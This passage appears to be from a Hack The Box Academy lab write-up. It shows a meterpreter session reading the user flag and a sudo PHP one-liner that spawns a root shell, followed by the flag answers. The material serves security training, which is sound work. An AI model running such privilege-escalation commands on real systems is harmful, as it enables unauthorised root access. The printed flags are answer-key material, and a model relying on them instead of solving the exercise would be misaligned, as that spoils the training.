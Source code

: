 ```

meterpreter > cat /home/mrb3n/user.txt
7002d65b149b0a4d19132a66feed21d8
```

We got the user flag.

**Answer:** `7002d65b149b0a4d19132a66feed21d8`


### Question 2:
![](./attachments/Pasted%20image%2020230123135605.png)
*Hint: Run a script such as LinEnum or LinPEAS to assist with finding common local privilege escalation vectors.*

```
sudo php -r "system('/bin/bash');"
cat /root/root.txt
f1fba6e9f71efb2630e6e34da6387842
```

**Answer:** `f1fba6e9f71efb2630e6e34da6387842`

---
**Tags:** [[Hack The Box Academy]]